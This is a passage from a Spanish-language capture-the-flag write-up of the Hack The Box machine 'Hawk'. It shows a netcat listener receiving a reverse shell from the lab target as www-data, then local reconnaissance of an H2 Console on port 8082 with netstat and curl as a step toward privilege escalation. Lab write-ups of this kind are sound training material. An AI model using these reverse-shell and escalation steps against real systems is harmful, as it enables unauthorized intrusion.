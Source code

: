 Nos ponemos en escucha a través del puerto 443 y guardamos los cambios.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.102] 41610
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Realizamos un [Tratamiento de la tty](/posts/tratamiento-tty) y observamos que nos escontramos dentro de la máquina víctima como el usuario `www-data`; ahora podemos visualizar la flag (user.txt). Para escalar privilegios, debemos tener en cuenta que se encuentra abierto el puerto 8082 asociado al servicio **H2 Console**. 

![""](/assets/images/htb-hawk/hawk_h2console.jpg)

Primeramente, validamos si el puerto 8082 está corriendo dentro de la máquina:

```bash
www-data@hawk:/$ netstat -nat | grep 8082
tcp6       0      0 :::8082                 :::*                    LISTEN     
tcp6       0      0 10.10.10.102:8082       10.10.14.2:55896        ESTABLISHED
www-data@hawk:/$ 
```

Ahora, mediante `curl` probaremos si podemos visualizar contenido diferente que al que observamos vía web:

```bash
www-data@hawk:/$ curl http://localhost:8082
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<!--
Copyright 2004-2014 H2 Group. Multiple-Licensed under the MPL 2.0,
and the EPL 1.0 (http://h2database.com/html/license.html).
Initial Developer: H2 Group
-->
<html><head>
    <meta http-equiv="Content-Type" content="text/html;charset=utf-8" />
    <title>H2 Console</title>
    <link rel="stylesheet" type="text/css" href="stylesheet.css" />
<script type="text/javascript">
location.href = 'login.jsp?jsessionid=a44a652e203c2092aa2e956117ab47a7';
</script>
</head>
<body style="margin: 20px;">

<h1>Welcome to H2</h1>
<h2>No Javascript</h2>
If you are not automatically redirected to the login page, then
Javascript is currently disabled or your browser does not support Javascript.
For this application to work, Javascript is essential.
Please enable Javascript now, or use another web browser that supports it.

</body></html>
www-data@hawk:/$
```